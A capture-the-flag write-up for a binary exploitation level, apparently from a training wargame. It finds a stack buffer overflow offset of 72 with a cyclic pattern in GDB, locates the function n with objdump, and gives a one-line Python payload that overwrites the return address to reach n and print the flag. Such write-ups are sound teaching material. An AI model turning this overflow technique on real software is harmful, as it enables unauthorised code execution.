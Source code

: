 We start by opening the binary in [dogbolt](https://dogbolt.org/) here we see that we must call `n` to trigger the `cat`.

We search the offset using a pattern generator like : [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator)

In GDB :
```
r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

When we put `0x41346341` in `wiremask` it find an offset of 72.

We search `n`:

```Shell
objdump -t level6
...
08049824  w      .data  00000000              data_start
08048454 g     F .text  00000014              n
0804982c g       *ABS*  00000000              _edata
...
```

address of `n` : `08048454`
little-endian : `/x54/x84/x04/x08`

Putting this together give us :
```Shell
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```

